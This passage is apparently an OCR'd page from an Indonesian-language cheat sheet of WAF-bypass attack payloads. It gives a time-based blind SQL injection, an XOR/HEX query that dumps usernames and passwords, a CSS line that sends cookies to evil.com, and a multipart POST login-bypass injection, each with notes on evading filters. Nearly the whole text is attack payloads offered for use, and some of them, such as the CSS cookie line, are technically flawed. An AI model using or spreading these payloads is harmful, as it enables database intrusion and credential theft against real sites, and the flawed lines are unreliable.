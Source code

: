 
### **🛡️ 10. SQL Injection with Adaptive Encoding**  
```sql
' OR (SELECT CASE WHEN (ASCII(SUBSTRING(database(),1,1)) > 100) THEN SLEEP(5) ELSE SLEEP(0) END)-- -
```
**📌 Teknik:**  
✅ Menggunakan `ASCII(SUBSTRING())` untuk mengambil karakter database satu per satu tanpa men-trigger WAF.  
✅ Pola **adaptive** yang bisa dikombinasikan dengan **binary search** untuk mempercepat eksekusi.  

---

---

### **🛡️ 11. Advanced XOR-Encoded SQL Injection**  
```sql
' OR 1=1 XOR HEX(SELECT GROUP_CONCAT(username, ':', password) FROM users)-- -
```
**📌 Teknik:**  
✅ XOR digunakan untuk menyamarkan payload agar sulit dikenali.  
✅ `HEX()` mengubah output menjadi hexadecimal agar tidak terbaca langsung oleh WAF.  

---

### **🛡️ 12. CSS Injection for Data Exfiltration**  
```css
@import url("http://evil.com/steal.css?cookie=" + document.cookie);
```
**📌 Teknik:**  
✅ Menggunakan `@import` CSS untuk mengirim data ke server penyerang.  
✅ Bisa melewati WAF yang hanya memfilter request JavaScript.  

---

### **🛡️ 13. Multipart SQL Injection via HTTP POST**  
```http
POST /vuln.php HTTP/1.1  
Host: target.com  
Content-Type: multipart/form-data; boundary=----Payload  
Content-Length: 150  

------Payload  
Content-Disposition: form-data; name="username"  

admin' OR '1'='1  
------Payload--
```
**📌 Teknik:**  
✅ SQLi disisipkan dalam multipart request untuk menghindari filter WAF standar.  
✅ Bisa digunakan untuk bypass sistem validasi input berbasis JSON atau form.  

---
